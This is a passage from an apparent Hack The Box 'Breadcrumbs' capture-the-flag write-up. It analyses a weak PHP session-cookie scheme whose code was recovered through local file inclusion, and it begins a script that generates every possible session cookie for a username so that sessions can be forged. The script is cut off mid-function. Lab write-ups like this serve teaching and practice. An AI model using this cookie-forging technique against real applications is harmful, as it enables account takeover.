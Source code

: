 ```php
?>
```

So essentially, every time a user logs in, a session ID is created by hashing three bits of information:

- A static string: `s4lTy_stR1nG_`
- One of the characters from the user's username
- And, to combat the infinite duration issue: a value that changes once a week

This means that within a week, a user has a number of possible cookies equal to the number of characters in their username and that session ID will be good for the duration of that week, until the third bit of info is changed. This is not *nearly* enough. Ideally, a user would get a new, random session ID each time they log in. Then, every time they log out, that session is no longer valid. 

I added the following bit of code to the above file to generate a number of keys with my username: `valoe` as an example:

```php
# Generate 10 "random" cookies:
for ($val = 0; $val < 10; $val++) {
	$item_num = strval($val + 1);
	$cookie = strval(makesession("valoe"));
	echo "{$iter_num}: {$cookie}\n";
}
```

When you run a secure algorithm ten times, you would expect ten different results. Instead, when I run this code, I get a bunch of repeats because of the limited randomness of using one of five characters as a seed. If I ran this a hundred times, it would be even more pronounced with only five possible values.

![](../HTB-pics/breadcrumbs/36.png)

I modified the above code to create a generic version that systemically gets *every* possible cookie (by iterating through the characters instead of choosing a random one) for a given username. This code is also available in the `HTB-scripts` directory of my Git repository.

```php
<?php
/*
Written by Ben "Valerie" Roudebush, 10 October 2022
I wrote this to generate session cookies for HTB-Breadcrumbs.
It takes the poorly-coded randomness of the original and generates all the possible cookies for a given username.
*/

/* Code Cleaned from Burpsuite LFI */
function makesession($username){
        $max = strlen($username) - 1;
        $seed = rand(0, $max);
        $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
        $session_cookie = $username.md5($key);
        return $session_cookie;
}

/* De-Randomized Code */
function bake($username){
        $max = strlen($username);
```